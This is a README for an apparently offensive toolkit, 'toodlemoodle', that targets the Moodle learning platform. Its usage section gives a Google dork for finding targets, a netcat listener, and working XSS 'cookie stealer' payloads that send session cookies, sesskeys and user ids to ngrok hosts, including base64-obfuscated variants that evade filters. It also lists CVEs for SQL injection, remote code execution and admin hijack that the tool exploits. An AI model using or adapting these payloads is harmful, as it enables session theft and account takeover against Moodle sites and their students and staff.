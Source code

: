# toodlemoodle

TODO: Write a description here

## Installation

TODO: Write installation instructions here

## Usage
Google dork: This files describes API changes in core libraries and APIs inurl:lib/upgrade.txt

TODO: Write usage instructions here
Thanks moodle for giving code to pwn self:
https://docs.moodle.org/dev/Security:Cross-site_scripting
while true; do nc -l 9999; done

My cookie stealer:
<script>alert('xss');document.write('<img src="https://7ea30092.ngrok.io/?cookie=' + document.cookie + '" />')</script>

<script>document.write('<img src="https://7ea30092.ngrok.io/?session=' + document.cookie.match(new RegExp('(^| )MoodleSession=([^;]+)'))[2] + "&sesskey=" + M.cfg.sesskey + "&id=" + document.querySelectorAll('[data-userid]')[0].getAttribute("data-userid") + '" />')</script>

https://blog.innerht.ml/tag/clickjacking/ good demo of a button that follows the mouse.

https://moodle.org/mod/forum/discuss.php?d=384010 3.6 login as, hijack admin account implemented in clickjack.html

https://www.cvedetails.com/cve/CVE-2018-1045/ 3.3.4 XSS in calendar event name todo

https://moodle.org/mod/forum/discuss.php?d=345915 3.2.1 xss via url implemented

POC:
http://localhost/mod/assign/view.php?id=2&action=view"onload="document.body.appendChild(document.createElement('img')).src=('https://5fc418e2.ngrok.io/?session='.concat(document.cookie,'|',M.cfg.sesskey))

Encode payload in base64 then: 

"onload="eval(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))

or if eval is filtered:

"onload="new Function(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))()


https://moodle.org/mod/forum/discuss.php?d=384011 3.6 (fresh!) enum events

https://www.cvedetails.com/cve/CVE-2017-2641/ used by exploit below

https://www.exploit-db.com/exploits/41828 3.2.1 SQL injection implemented

https://www.exploit-db.com/exploits/46551 3.4.1 RCE, CVE below TODO

https://www.cvedetails.com/cve/CVE-2018-1133/ 3.4.2 remote code exec for teacher "Calculated question"

fresher:

https://www.cvedetails.com/cve/CVE-2018-14630/ 3.5.2 remote code exec for (teacher?) "quiz import" probably wont be done

https://packetstormsecurity.com/files/149426/Moodle-3.x-PHP-Unserialize-Remote-Code-Execution.html CVE-2018-14630

Features:
1. scan: detect version (working!), suggest supported exploits
2. view calendar events bypass
3. exploit quiz import and calculated question vulns
4. exploit 2018-1133 RCE
5. exploit 2017-2641 SQL injection (via user pref) (generate sqlmap command)
6. add xss to account dashboard, generate clickjacker, using CVE-2019-3810 or CVE-2019-3847 to hijack session
7. add xss to calendar, generate link for victim to click and steal sesh

## Development

TODO: Write development instructions here
Make sure you have crystal & openssl installed. For MacOs, run
```
brew install crystal openssl
```

It is critical to compile this project, that you add the following lines to your bash_profile or zshrc:
```
export PKG_CONFIG_PATH="/usr/local/opt/openssl/lib/pkgconfig:$PKG_CONFIG_PATH"
export LDFLAGS="-L/usr/local/opt/libffi/lib -L/usr/local/opt/openssl/lib -L/usr/local/opt/llvm@6/lib -Wl,-rpath,/usr/local/opt/llvm@6/lib -L/usr/local/opt/llvm@6/lib $LDFLAGS"
export CPPFLAGS="-I/usr/local/opt/openssl/include -I/usr/local/opt/llvm@6/include $CPPFLAGS"
```

This adds LLVM, LibFFI, and OpenSSL to your compiler flags.

Now you can run this project (this will compile the project, hence the long startup time): 
```
crystal run src/tmoodle.cr
```

You can also build an executable:
```
crystal build src/tmoodle.cr
```
Use the  --release flag for an optimized production build.

### Docker image setup



## Contributing

1. Fork it (<https://github.com/your-github-user/toodlemoodle/fork>)
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create a new Pull Request

## Contributors

- [Riccaardo Felluga](https://github.com/riccardofelluga) - contributor and maintainer
- [Claudio Spiess](https://github.com/your-github-user) - creator and maintainer
